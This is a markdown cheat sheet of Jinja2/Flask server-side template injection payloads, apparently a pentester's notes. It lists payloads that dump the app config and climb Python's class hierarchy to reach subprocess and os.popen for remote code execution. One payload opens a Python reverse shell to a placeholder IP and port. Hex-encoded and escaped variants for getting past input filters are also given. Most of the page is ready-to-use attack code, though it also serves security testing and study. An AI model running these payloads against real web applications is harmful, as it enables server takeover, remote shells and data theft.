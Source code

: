 # jinja2 flask SSTI

## Info

* **Method Resolution Order (mro):** allows to go up the inherited objects chain
* **subclasses:** going down the inheritance chain

## Jinja2 Templates

Jinja2 supports templates for the format

```bash
{{ ... }}
{% ... %}
```

## subprocess.pOpen method

```bash
# print all config vars
{{config}}
{{self.__dict__}}
{{config.items()}}

# find the mro object[X] to list all subclasses
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[X].__subclasses__() }} => list of all subclasses

# find subprocess.pOpen class
{{ ''.__class__.__mro__[X].__subclasses__()[XXX] }} => <class 'subprocess.pOpen'>

# RCE
{{ ''.__class__.__mro__[X].__subclasses__()[XXX]('id', shell=True, stdout=-1).communicate() }}
```

## RCE Styles

```bash
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```

### brute-RCE (without guessing mro class)

```bash
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{x()._module.builtins['import']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

## Bypass restrictions (1)

* [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)

```bash
{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("ls").read()}}
    {%endif%}
{%endfor%}

# is converted (via hex encoding)

{% for a in []["5F5F636C6173735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F626173655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F737562636C61737365735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]() %}
    {% if "7761726E696E67"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78") in a["5F5F6E616D655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")] %}
        {{a()["5F6D6F64756C65"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F6275696C74696E735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F696D706F72745F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6F73"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["706F70656E"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6563686F2024666C6167"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["72656164"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]()}}
    {%endif%}
{%endfor%}
```

## Bypassing restrictions (2)

```bash
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
# modifying {{ }} to a different method using {% %}
# modifying ' to "
# modifying _ to \x5f

{% request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() %}

# using operator:with
# {% with %} ... {% endwith %} 

{% with kashz=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("id")["read"]()  %} kashz {% endwith %}

# can try using bas64 payload
```

## References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
* [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)
* [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)
